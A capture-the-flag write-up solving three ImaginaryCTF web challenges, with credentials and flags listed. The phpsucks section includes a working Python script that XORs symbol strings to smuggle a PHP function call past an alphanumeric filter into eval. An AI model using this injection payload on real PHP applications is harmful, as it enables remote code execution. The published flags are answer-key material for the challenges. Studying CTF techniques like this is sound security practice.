 # Replacement

## Description

Red flags and fake flags form an equivalence class.

## Attachments

`ictf:f2e8b632f71c2cab`
`http://puzzler7.imaginaryctf.org:4003/`

## Solution

After logging in with the given creds, we see that there is a fake flag.
Checking the source code shows a directory `/totallynottheflag`.

When we try to access the directory, the flag is being showed for a sec and being replaced by the fake flag.

So disable the javascript and check the source code.
You can use [Burpsuite](https://portswigger.net/burp) also.

## flag 

`ictf{gr333333333333333n_flags_are_g00d_tho}`

<br>

# Backtracking

## Description

Look at how far you've come

## Attachments

`http://puzzler7.imaginaryctf.org:4007/`
`ictf:24dbcbffb8208024`

## Solution

Checking the source code shows us an obfuscated javascript code.
I have used this [deobfuscator](https://lelinhtinh.github.io/de4js/) which showed [history.pushState](https://www.javascripttutorial.net/web-apis/javascript-history-pushstate/).

This function adds the provided url to the history stack.
There appears to be a flag being added to the history stack, So simply clicking back button gives us the flag.

## flag

`ictf{it's_me_the_friend_you_made_along_the_way}`

<br>

# phpsucks

## Description

I have an eval but with a robust user input validation.

## Attachments

`http://puzzler7.imaginaryctf.org:4011/`

## Solution

Going over to the provided link shows a php code which is taking input from user by filtering alphanumeric characters and passing it to the eval.

The flag can be viewed if we can execute `secret_function()`.

The following script passes xor between two strings as input.

script

```
import requests
from Crypto.Util.strxor import strxor
import string

fun = "secret_function"
lis = """'_.@/{}()=*,-:<>?["]|"""
nope = string.ascii_lowercase + string.ascii_uppercase + string.digits
final = ""
final2 = ""

for let in fun:
    for i in lis:
        s = strxor(let.encode(), i.encode()).decode()
        if s not in nope and s in lis:
            final += s
            final2 += i
            break

payload = f"$_='{final}'^'{final2}';$_();"

url = f"http://puzzler7.imaginaryctf.org:4011/?cmd={payload}"
req = requests.get(url)
print(req.text[req.text.find('ictf'):])
```

## flag 

`ictf{th3r3_4r3_n0_l4ngu4g3_l1k3_Php}`

<br>

